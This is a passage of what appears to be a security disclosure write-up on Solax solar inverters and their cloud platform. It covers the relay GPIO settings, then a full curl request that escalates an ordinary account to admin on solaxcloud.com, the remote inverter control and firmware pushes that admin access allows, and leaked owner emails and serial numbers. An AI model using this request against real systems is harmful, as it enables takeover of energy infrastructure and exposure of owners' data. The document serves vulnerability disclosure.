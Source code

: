 The CPU is connected to the WiFi stick via USB. The WiFi Stick is connected - via a router - to a MQTT broker.

The cloud platform can be accessed by clients at `solaxcloud.com`.

### Relays control

In order to switch on all 4 relays, following GPIOs have to be set:
* DSP GPIO 39 set to '1' (power supply of the relay coils)
* DSP GPIO 40 set to '1' (Relay 2a)
* DSP GPIO 4 set to '1' (Relay 2b)
* CPU GPIO PB9 set to '0' (Relay 1a)
* CPU GPIO PE0 set to '0' (Relay 1b)

## Getting admin privileges on the cloud platform

It was simple to elevate privileges from a normal user `enduser` to `admin` by changing the user type `userType` with one API call. The `admin` user has complete control over the cloud platform and especially over the connected inverters.

Here is the api call to get admin privileges (replace the token with a valid session token and the user id `USER_ID` with the actual user id):

```sh
curl 'https://solaxcloud.com/blue/phoebus/login/editUserDetails' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY' \
  -H 'User-Agent: okhttp' \
  -H 'token: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx' \
  --data-raw $'------WebKitFormBoundaryY\r\nContent-Disposition: form-data; 
  name="userType"\r\n\r\n1\r\n------WebKitFormBoundaryY\r\nContent-Disposition: form-data; 
  name="userName"\r\n\r\n\r\n------WebKitFormBoundaryY\r\nContent-Disposition: form-data; 
  name="id"\r\n\r\n[USER_ID]\r\n------WebKitFormBoundaryY--\r\n' 
```

This is the main page as `admin`:

![admin](https://raw.githubusercontent.com/veganmosfet/CyberEclipse/main/pics/admin1.png)

The `admin` user can do remote maintenance on all inverters, here an example (device management > remote settings):

![rm1](https://raw.githubusercontent.com/veganmosfet/CyberEclipse/main/pics/s8.png)

Critical parameters can be changed too, the device (global) default passwords have not been changed in most of the cases:

![rm2](https://raw.githubusercontent.com/veganmosfet/CyberEclipse/main/pics/s9.png)

The `admin` user can also trigger firmware update on inverter groups.

## Data leakage

Following data could be extracted with a simple account:
* EMail address of the device owner (email addresses are used as login name)
* All involved serial numbers of inverters and wifi devices
